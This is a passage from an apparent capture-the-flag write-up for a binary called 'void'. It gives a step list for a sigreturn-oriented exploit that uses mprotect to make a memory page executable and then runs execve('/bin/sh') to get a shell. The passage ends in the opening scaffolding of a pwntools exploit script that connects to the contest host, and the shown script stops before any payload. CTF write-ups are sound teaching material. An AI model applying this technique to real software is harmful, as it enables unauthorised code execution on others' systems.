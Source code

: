Luckily, in `0x004020b8`, there is pointer that point to `main`. So we can happily make whole `0x00402000-0x00403000` page writable and use this address as our new rsp.

## Summary

1. write signal frame to the stack with rax=10 (mprotect), rdi = 0x00402000, rsi = 0x1000, rdx = 7 (rwx), rsp = 0x004020b8, rip = syscall addr. Then return to main
2. write 15 bytes to trigger sigreturn
3. syscall `mprotect(0x00402000,0x1000,7)`
4. return to main, write signal frame for calling execve. Then return to main
5. write 15 bytes to trigger sigreturn
6. syscall `execve('/bin/sh',0,0)` to get a shell

## Exploit

```
from pwn import *


class BinaryInfo:
    exe = "void"
    libc = ""

    host = "rua.host.goes.here"
    port = 8000


exe = context.binary = ELF(BinaryInfo.exe)
exe_rop = ROP(exe)
if BinaryInfo.libc != "":
    libc = ELF(BinaryInfo.libc)
    libc_rop = ROP(libc)
else:
    libc = None
    libc_rop = None

host = args.HOST or BinaryInfo.host
port = int(args.PORT or BinaryInfo.port)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = remote("tamuctf.com", 443, ssl=True, sni="void")
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)


```